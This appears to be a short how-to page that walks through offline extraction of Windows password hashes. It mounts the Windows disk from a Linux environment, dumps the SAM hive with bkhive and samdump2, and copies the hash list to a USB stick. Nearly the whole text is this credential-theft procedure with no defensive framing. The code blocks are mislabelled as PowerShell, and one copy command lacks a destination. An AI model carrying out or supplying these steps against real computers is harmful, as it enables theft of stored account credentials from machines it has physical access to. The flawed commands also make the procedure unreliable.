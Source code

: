 Display disk partiion

{% highlight PowerShell %}
cfdisk /dev/sda
{% endhighlight %}

Mount the disk

{% highlight PowerShell %}
mount /dev/sda2 /mnt
{% endhighlight %}

List files

{% highlight PowerShell %}
ls /mnt -la
{% endhighlight %}

Navigate to folder with SAM and SECURITY

{% highlight PowerShell %}
cd /mnt/WINDOWS/system32/config/
{% endhighlight %}

Extract hashes

{% highlight PowerShell %}
bkhive system /tmp/key.txt
samdump2 SAM /tmp/key.txt > /tmp/hashlist.txt
{% endhighlight %}

Cat the hashes

{% highlight PowerShell %}
cat hashlist.txt
{% endhighlight %}

Check file space

{% highlight PowerShell %}
df -h
{% endhighlight %}

Change directory back to the root

{% highlight PowerShell %}
cd /
{% endhighlight %}

Unmount

{% highlight PowerShell %}
umount /mnt
{% endhighlight %}

save the files to the stick to preserve them

{% highlight PowerShell %}
dmesg | grep sd
mount /dev/sdc1 /mnt
cd /mnt
cp /tmp/hashlist.txt
cd /
df -h
umount /mnt
{% endhighlight %}
